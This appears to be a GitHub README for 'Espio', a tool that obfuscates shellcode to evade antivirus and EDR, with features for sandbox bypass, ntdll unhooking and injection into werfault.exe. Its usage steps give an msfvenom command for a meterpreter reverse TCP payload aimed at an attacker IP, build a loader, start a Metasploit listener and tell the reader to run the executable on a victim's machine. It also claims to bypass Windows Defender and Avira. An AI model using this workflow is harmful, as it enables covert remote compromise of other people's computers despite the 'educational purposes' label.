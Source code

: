 # Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone <url>
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project. Note that the executable file will be located at loader/x64/Debug/Espio.exe.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Recommendations
- In step 2 and 6, create meterpreter session over HTTPS. For more information see [Meterpreter HTTP/HTTPS Communication](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/).
- In step 5, change the build configuration from Debug to Release. Note that the executable file will now be located at loader/x64/Realease/Espio.exe.

## Tests
Espio was examined against:

### Windows Defender:

<img src="images/defender_bypass.png" alt="Defeder Bypass">

### Avira Prime:

<img src="images/avira_bypass.png" alt="Avira Bypass">

### ANTISCAN:

<img src="images/antiscan.png" alt="ANTISCAN">

## Authors and acknowledgments
- [@dkonis](https://github.com/dkonis) - Research & Development
- [@RonKon](https://github.com/RonKonis) - Development
- [@SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
